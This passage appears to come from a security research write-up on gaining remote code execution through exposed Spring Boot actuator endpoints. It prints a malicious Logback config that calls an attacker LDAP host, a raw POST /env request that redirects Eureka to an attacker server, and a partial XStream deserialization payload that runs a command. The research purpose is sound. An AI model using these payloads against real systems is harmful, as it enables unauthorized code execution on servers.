     The Logback config has the feature 'Obtaining variables from JNDI'. In the XML file, we can include a tag like '<insertFromJNDI env-entry-name="java:comp/env/appName" as="appName" />' and the name attribute will be passed to the DirContext.lookup() method. If we can supply an arbitrary name into the .lookup() function, we don't even need XXE or HeapDump because it gives us a full Remote Code Execution.

How it works:

1. An attacker requests the aforementioned URL to execute the 'reloadByURL' function, provided by the 'qos.logback.classic.jmx.JMXConfigurator' class.

2. The 'reloadByURL' function downloads a new config from http://artsploit.com/logback.xml and parses it as a Logback config. This malicious config should have the following content:

<configuration>
  <insertFromJNDI env-entry-name="ldap://artsploit.com:1389/jndi" as="appName" />
</configuration>

3. When this file is parsed on the vulnerable server, it creates a connection to the attacker-controlled LDAP server specified in the “env-entry-name” parameter value, which leads to JNDI resolution. The malicious LDAP server may return an object with 'Reference' type to trigger an execution of the supplied bytecode on the target application. JNDI attacks are well explained in this MicroFocus research paper. The new JNDI exploitation technique (described previously in our blog) also works here, as Tomcat is the default application server in the Spring Boot Framework.

2. Config modification via '/env'

If Spring Cloud Libraries are in the classpath, the '/env' endpoint allows you to modify the Spring environmental properties. All beans annotated as '@ConfigurationProperties' may be modified and rebinded. Many, but not all, properties we can control are listed on the '/configprops' actuator endpoint. Actually, there are tons of them, but it is absolutely not clear what we need to modify to achieve something. After spending a couple of days playing with them we found this:

POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
 
eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream

This property modifies the Eureka serviceURL to an arbitrary value. Eureka Server is normally used as a discovery server, and almost all Spring Cloud applications register at it and send status updates to it. If you are lucky to have Eureka-Client <1.8.7 in the target classpath (it is normally included in Spring Cloud Netflix), you can exploit the XStream deserialization vulnerability in it. All you need to do is to set the 'eureka.client.serviceUrl.defaultZone' property to your server URL ( http://artsploit.com/n/xstream) via '/env' and then call '/refresh' endpoint. After that, your server should serve the XStream payload with the following content:

<linked-hash-set>
  <jdk.nashorn.internal.objects.NativeString>
    <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
      <dataHandler>
        <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
          <is class="javax.crypto.CipherInputStream">
            <cipher class="javax.crypto.NullCipher">
              <serviceIterator class="javax.imageio.spi.FilterIterator">
                <iter class="javax.imageio.spi.FilterIterator">
                  <iter class="java.util.Collections$EmptyIterator"/>
                  <next class="java.lang.ProcessBuilder">
                    <command>
                      <string>/Applications/Calculator.app/Contents/MacOS/Calculator</string>
                    </command>
                    <redirectErrorStream>false</redirectErrorStream>
                  </next>
                </iter>
                <filter class="javax.imageio.ImageIO$ContainsFilter">
                  <method>
                    <class>java.lang.ProcessBuilder</class>